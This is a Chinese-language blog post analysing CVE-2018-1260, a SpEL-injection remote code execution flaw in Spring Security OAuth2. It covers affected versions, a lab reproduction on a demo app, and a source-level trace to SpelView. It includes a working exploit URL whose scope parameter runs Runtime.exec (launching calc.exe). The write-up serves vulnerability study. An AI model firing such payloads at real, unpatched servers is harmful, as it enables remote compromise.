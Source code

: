 ```yaml
---
layout: mypost
title: Spring Security OAuth2 远程代码执行漏洞(CVE-2018-1260)
categories: [漏洞分析]
---
```


## **一：漏洞简介**

在Spring Security OAuth 2.x老的版本中，恶意用户可以向授权服务器发起授权请求，当转发至授权审批终端（Approval Endpoint）时，会导致远程代码执行漏洞的攻击。

## 二：**利用条件**

1、被攻击端作为授权服务器时（如使用了注解）

2、使用了默认审批终端，或重写的审批终端逻辑中使用等对输出内容进行SPEL表达式解析

3、未配置Scopes

## 三：**影响版本**

Spring Security OAuth 2.3到2.3.2

Spring Security OAuth 2.2到2.2.1

Spring Security OAuth 2.1到2.1.1

Spring Security OAuth 2.0到2.0.14

## 四：**漏洞复现**

使用github上已有的demo：https://github.com/wanghongfei/spring-security-oauth2-example

Clone下来后导入idea待全部依赖下载完成。

然后修改cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java中的第67行为：

```
@Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }
```

然后根据github中的readme中的介绍操作数据库相关（包括：创建库、创建表、添加数据等等）

![CVE-2018-1260_1](CVE-2018-1260_1.png)

然后修改application.properties中的mysql数据库相关的信息。

![CVE-2018-1260_2](CVE-2018-1260_2.png)

然后启动环境并访问：

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

会重定向到登陆页面，随便输入用户名密码后点击登陆

![CVE-2018-1260_3](CVE-2018-1260_3.png)

触发payload:

![CVE-2018-1260_4](CVE-2018-1260_4.png)



## 五：漏洞分析

Spring Security OAuth在org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint对用户的认证请求进行处理，其中对应的URL是@RequestMapping({"/oauth/authorize"})，其中有一处关键的地方是在于this.oauth2RequestValidator.validateScope(authorizationRequest, client);，此代码是用于对用户传入的scope进行认证。通过动态分析来分析对scope的认证过程以及绕过方法。

![CVE-2018-1260_5](CVE-2018-1260_5.png)

跟踪进入到org.springframework.security.oauth2.provider.request.DefaultOAuth2RequestValidator:validateScope()方法中，代码如下：

![CVE-2018-1260_6](CVE-2018-1260_6.png)

调用的是DefaultOAuth2RequestValidator的私有validateScope()方法

其中的参数如下：

![CVE-2018-1260_7](CVE-2018-1260_7.png)

通过动态调试发现，`requestScopes`是传入的rce的payload，是`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`不为null，而`clientScopes`是我们在搭建环境时在`OAuthSecurityConfig`设置的，值为空。所以在这里我们就绕过了`validateScope()`的检测。

最后我们回到主函数`@RequestMapping({"/oauth/authorize"})`中，最终出现会进入到121行中的`return this.getUserApprovalPageResponse(model, authorizationRequest, (Authentication)principal);`中。跟踪`getUserApprovalPageResponse()`进入到`org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint:getUserApprovalPageResponse()`

![CVE-2018-1260_8](CVE-2018-1260_8.png)

当执行到`new ModelAndView(this.userApprovalPage, model);`时，此时的各项参数如下所示：

![CVE-2018-1260_9](CVE-2018-1260_9.png)

所以程序内部会跳转到forward:/oauth/confirm_access。

继续执行，执行到org.springframework.security.oauth2.provider.endpoint.WhitelabelApprovalEndpoint:getAccessConfirmation()。getAccessConfirmation()对forward:/oauth/confirm_access进行响应处理。

![CVE-2018-1260_10](CVE-2018-1260_10.png)

进入到创建模板函数createTemplate()中

![CVE-2018-1260_11](CVE-2018-1260_11.png)

其中model和request的参数信息如下：

![CVE-2018-1260_12](CVE-2018-1260_12.png)

根据参数信息，函数会执行到`template = template.replace("%scopes%", this.createScopes(model, request)).replace("%denial%", "");`，跟踪`this.createScopes()`进一步分析。

![CVE-2018-1260_13](CVE-2018-1260_13.png)

函数的工作很明确，获取到scopes的内容拼接成为字符串返回。最终得到的builder.toString()的结果是：

```
<ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>
```

返回到createTemplate()函数中，最终template()返回的结果是:

```
<html><body><h1>OAuth Approval</h1><p>Do you authorize '${authorizationRequest.clientId}' to access your protected resources?</p><form id='confirmationForm' name='confirmationForm' action='${path}/oauth/authorize' method='post'><input name='user_oauth_approval' value='true' type='hidden'/><input type='hidden' name='${_csrf.parameterName}' value='${_csrf.token}' /><ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul><label><input name='authorize' value='Authorize' type='submit'/></label></form></body></html>
```

可以看到在template模板中已经携带有我们的payload，`scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`。

执行完`createTemplate()`函数之后，程序回到`getAccessConfirmation()`中，程序最后执行到`return new ModelAndView(new SpelView(template), model);`

![CVE-2018-1260_14](CVE-2018-1260_14.png)

进入到new SpelView(template)中，new SpelView()会对template中的spel表达式解释执行最终造成rce。

![CVE-2018-1260_15](CVE-2018-1260_15.png)

`Expression expression = SpelView.this.parser.parseExpression(name);`会对template中的内容进行解析包括scope，最终造成rce。

![CVE-2018-1260_16](CVE-2018-1260_16.png)

## 六：参考链接

[**https://blog.spoock.com/2018/05/13/cve-2018-1260/**](https://blog.spoock.com/2018/05/13/cve-2018-1260/)

## 七：个人github

https://artio-li.github.io/

